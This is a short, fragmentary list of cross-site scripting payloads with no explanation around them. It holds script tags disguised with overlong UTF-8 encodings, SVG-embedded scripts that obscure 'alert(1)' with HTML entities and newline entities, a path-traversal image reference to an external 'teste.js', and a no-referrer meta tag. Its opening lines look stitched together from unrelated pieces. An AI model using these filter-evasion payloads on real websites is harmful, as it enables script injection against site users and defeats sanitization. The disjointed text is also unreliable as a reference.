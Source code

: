 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)

<meta name="referrer" content="no-referrer">

%C0%BCscript>alert(1)</script>
%E0%80%BCscript>alert(1)</script>
%F0%80%80%BCscript>alert(1)</script>
%F8%80%80%80%BCscript>alert(1)</script>
%FC%80%80%80%80%BCscript>alert(1)</script>

<svg><script>&#97;lert(1)</script></svg>
<svg><script>&#x61;lert(1)</script></svg>
<svg><script>alert&NewLine;(1)</script></svg>
<svg><script>x="&quot;,alert(1)//";</script></svg>
